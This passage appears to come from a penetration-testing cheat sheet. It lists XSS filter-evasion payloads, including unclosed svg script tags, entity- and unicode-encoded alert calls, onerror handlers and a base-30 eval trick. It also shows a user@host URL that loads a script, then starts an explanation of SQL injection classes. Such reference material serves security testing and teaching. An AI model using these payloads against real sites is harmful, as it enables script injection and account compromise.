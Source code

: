 ```javascript

<svg><script>alert('l33t')    //Not closing the tag

<svg><script>&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x27;&#x6C;&#x33;&#x33;&#x74;&#x27;&#x29;&#x3B;</script>    //HTML Entities encoding -> alert(‘l33t’);

<svg><script>alert&lpar;'l33t'&rpar;    //HTML Entities Encoding enabling named character reference. %lpar; is the left parenthesis

<script>\u0061lert('l33t')</script>    //To use when the word alert is being blocked. \u0061 stands for the letter a in unicode format

<script>eval('\x61lert(\'l33t\')')</script>

<img src=x onerror=\u0061lert(‘l33t’);>

[NL]eval('\x61lert(\'l33t\')'    //[NL] stands for new line

<isindex onmouseover=&#x61;&#x6C;&#x65;&#x72;&#x74;(‘l33t’);>

[\u2028]eval('\x61lert(\'l33t\')'    //Where [\u2028] is a line separator

<script>eval(8680439..toString(30))(983801..toString(36))</script>    //8680439 in base10 means alert in base30

http://10.my.domain%2f@10.105.15.198/X.JS    //The concept is that to login you can use protocol://user@URL:port
```

Here is a list of useful links and resources:
- [Common payloads](https://www.fatalerrors.org/a/0tlx2Ds.html)
- [Conversion tool from base to base](http://extraconversion.com/base-number/base-36)



## SQL Injection

SQL Injection is an attack aimed at altering the original SQL query structure by leveraging the syntax or DBMS functionalities in order to perform malicious operations. The following paragraph assumes that the reader has already a basic understanding of databases, SQL and this kind of vulnerability.

Generally speaking, *SQLi Techniques Classification* is based on channels used during the recon process:

&nbsp;
- INBAND
>Attacks that leverage the same channel used to inject the SQL code. The result of the exploitation is included directly in the response from the vulnerable web application.
UNION-based and ERROR-based SQLi are an example.  

- OUT-OF-BAND
> OOB techniques use alternative channels to extract data from the server and they depend upon the back-end technologies implemented. Some of these include HTTP(s) requests or DNS resolution. Useful when all INBAND techniques have failed.
